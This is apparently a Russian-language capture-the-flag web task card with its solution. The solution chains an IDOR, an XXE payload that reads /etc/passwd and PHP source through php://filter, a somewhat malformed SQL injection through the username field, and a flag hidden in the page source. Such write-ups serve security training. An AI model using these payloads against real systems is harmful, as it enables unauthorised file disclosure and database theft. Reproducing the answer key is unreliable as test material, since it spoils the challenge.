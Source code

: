 # Разминочка

## Категория
Web - Квест

## Описание
Чтож, разомнёмся и посмотрим что вы знаете

## Сложность
Medium

## Стоимость
400

## Файлы
N/A

## Хостинг
Нужен

## Флаг
flag_plug

==========

## решение
1. Idor на reader.php?file_id=-1
2. XXE на reader.php при зашрузке чего то типа
```
<?xml version="1.0"?>
<!DOCTYPE foo [
    <!ENTITY xxe SYSTEM "php://filter/read=convert.base64-encode/resource=/etc/passwd">
]>
<foo>
    &xxe;
</foo>
```
И видим в исходнике php кода index.php
3. SQLi через имя пользователя. Делаем
```
a' SELECT username, password FROM users WHERE id = 1; #
```
И вместо пароля видим 3 часть.
4. Я обленился и он просто в Ctrl+U на index.php
